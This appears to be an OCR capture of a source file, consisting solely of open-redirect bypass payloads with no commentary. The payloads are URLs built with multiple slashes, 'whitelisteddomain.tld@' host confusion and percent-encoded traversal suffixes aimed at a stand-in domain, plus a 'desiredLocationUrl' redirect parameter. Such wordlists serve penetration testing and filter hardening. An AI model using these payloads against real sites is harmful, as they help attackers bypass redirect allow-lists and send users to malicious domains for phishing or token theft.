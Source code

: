 //%2fxgoogle.com
/ReceiveAutoRedirect/false?desiredLocationUrl=http://xssposed.org
//localdomain.pw/%2f..
//www.whitelisteddomain.tld@localdomain.pw/%2f..
///localdomain.pw/%2f..
///www.whitelisteddomain.tld@localdomain.pw/%2f..
////localdomain.pw/%2f..
////www.whitelisteddomain.tld@localdomain.pw/%2f..
https://localdomain.pw/%2f..
https://www.whitelisteddomain.tld@localdomain.pw/%2f..
/https://localdomain.pw/%2f..
/https://www.whitelisteddomain.tld@localdomain.pw/%2f..
//localdomain.pw/%2f%2e%2e
//www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
///localdomain.pw/%2f%2e%2e
///www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
////localdomain.pw/%2f%2e%2e
////www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
https://localdomain.pw/%2f%2e%2e
https://www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
/https://localdomain.pw/%2f%2e%2e
/https://www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e
//localdomain.pw/
//www.whitelisteddomain.tld@localdomain.pw/
///localdomain.pw/
///www.whitelisteddomain.tld@localdomain.pw/
////localdomain.pw/
////www.whitelisteddomain.tld@localdomain.pw/
https://localdomain.pw/
https://www.whitelisteddomain.tld@localdomain.pw/
/https://localdomain.pw/
/https://www.whitelisteddomain.tld@localdomain.pw/
//localdomain.pw//
//www.whitelisteddomain.tld@localdomain.pw//
///localdomain.pw//
///www.whitelisteddomain.tld@localdomain.pw//
////localdomain.pw//
////www.whitelisteddomain.tld@localdomain.pw//
https://localdomain.pw//
https://www.whitelisteddomain.tld@localdomain.pw//
//https://localdomain.pw//
//https://www.whitelisteddomain.tld@localdomain.pw//
//localdomain.pw/%2e%2e%2f
//www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f
///localdomain.pw/%2e%2e%2f
///www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f
////localdomain.pw/%2e%2e%2f
////www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f
https://localdomain.pw/%2e%2e%2f
https://www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f
//https://localdomain.pw/%2e%2e%2f
//https://www.whitelisteddomain.tld@localdomain.pw/%2e%2e%2f
///localdomain.pw/%2e%2e
///www.whitelisteddomain.tld@localdomain.pw/%2e%2e
////localdomain.pw/%2e%2e
////www.whitelisteddomain.tld@localdomain.pw/%2e%2e
https:///localdomain.pw/%2e%2e
https:///www.whitelisteddomain.tld@localdomain.pw/%2e%2e
//https:///localdomain.pw/%2e%2e
//www.whitelisteddomain.tld@https:///localdomain.pw/%2e%2e
/https://localdomain.pw/%2e%2e
/https://www.whitelisteddomain.tld@localdomain.pw/%2e%2e
///localdomain.pw/%2f%2e%2e
///www.whitelisteddomain.tld@localdomain.pw/%2f%2e%2e